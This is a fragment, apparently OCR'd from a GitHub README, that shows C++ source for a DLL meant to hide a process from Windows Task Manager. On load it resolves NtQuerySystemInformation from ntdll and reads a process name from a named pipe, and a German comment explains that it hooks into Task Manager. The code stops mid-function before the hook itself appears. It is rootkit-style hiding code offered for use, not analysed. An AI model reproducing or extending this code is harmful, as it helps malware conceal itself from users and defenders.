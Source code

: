 ```cpp
}
```

### Hide Process in Task Manager

Manipulation of ntdl.dll Driver

**DLL:**

Hier wird durch die HANDLE des Taskmanagers, gehookt, wodurch man frei ins Programm schreiben kann.

```cpp
BOOL APIENTRY DllMain( HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
{
	HANDLE pipe = INVALID_HANDLE_VALUE;
	FunctionHooker hooker;
	HMODULE ntdllBase; 
	BOOL isWowProcess;
	BOOL wowCheckFailed = 0;
	void* ntQueryAddr;
	void* rtlInitAddr;
	void* rtlAnsiToUnicodeAddr;


    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:

		ntdllBase = LoadLibraryA("ntdll.dll");
		
		ntQueryAddr = GetProcAddress(ntdllBase, "NtQuerySystemInformation");
		rtlInitAddr = GetProcAddress(ntdllBase, "RtlInitAnsiString");
		rtlAnsiToUnicodeAddr = GetProcAddress(ntdllBase, "RtlAnsiStringToUnicodeString");

		pipe = CreateFileW(L"\\\\.\\pipe\\UnmanagerPipe", GENERIC_READ, 0, NULL, OPEN_EXISTING, 0, NULL);

		if (pipe != INVALID_HANDLE_VALUE)
		{
			DWORD bytesRead;

			char readBuffer[MAX_PATH];

			while (!ReadFile(pipe, readBuffer, MAX_PATH, &bytesRead, NULL))
			{
				Sleep(5);
			}

			_RtlInitAnsiString MyRtlInitAnsiString;
			_RtlAnsiStringToUnicodeString MyRtlAnsiStringToUnicodeString;

			if (rtlInitAddr)
			{
				MyRtlInitAnsiString = (_RtlInitAnsiString) rtlInitAddr;

				if (rtlAnsiToUnicodeAddr)
				{
					MyRtlAnsiStringToUnicodeString = (_RtlAnsiStringToUnicodeString) rtlAnsiToUnicodeAddr;

					ANSI_STRING originalString;

					MyRtlInitAnsiString(&originalString, readBuffer);

```